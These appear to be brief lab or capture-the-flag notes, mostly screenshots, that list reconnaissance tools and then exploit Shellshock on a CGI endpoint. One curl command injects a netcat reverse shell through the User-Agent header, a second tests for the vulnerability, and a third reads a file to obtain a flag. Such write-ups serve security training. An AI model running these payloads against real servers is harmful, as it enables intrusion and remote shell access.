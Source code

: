 <img width="456" height="293" alt="image" src="https://github.com/user-attachments/assets/4af06be3-3a6b-4c72-9b64-edaeb9ec9e2b" />



netcraft
urlscan.io

<img width="455" height="202" alt="image" src="https://github.com/user-attachments/assets/267c1768-3b05-4fc4-bd76-afd3a9508a00" />




The harvester



<img width="431" height="209" alt="image" src="https://github.com/user-attachments/assets/fddc6972-6836-475b-ac80-ee56f535837a" />


<img width="1424" height="741" alt="image" src="https://github.com/user-attachments/assets/0a1d7d90-b50a-46c8-bc0c-6d63ee6671e1" />


------------



## week two - second day


<img width="432" height="211" alt="image" src="https://github.com/user-attachments/assets/95d5e7ad-a591-4672-a0f0-acff7e2156a7" />

---

<img width="388" height="160" alt="image" src="https://github.com/user-attachments/assets/58ff9947-f60e-4a36-9ef0-2497d8a60654" />





curl -s -D - \
  -H 'User-Agent: () { :; }; /bin/bash -c nc 192.168.92.128 4444 -e /bin/sh' \
  'http://13.56.213.177/cgi-bin/status?_cb=1' | sed -n '1,200p'



```
curl -s -D - \
  -H 'User-Agent: () { :; }; /bin/bash -c "echo; echo VULNTEST"' \
  'http://13.56.213.177/cgi-bin/status?_cb=1' | sed -n '1,200p'

```





```
curl -s -D - \
  -H 'User-Agent: () { :; }; /bin/bash -c "echo; echo START; cat /home/inside; echo END"' \
  'http://13.56.213.177/cgi-bin/status?_cb=ts' | sed -n '1,200p'

```



```
FLAG{InSiDe_ShOcK_WaVe_StAy_HoMe_StAy_SaFe}
```











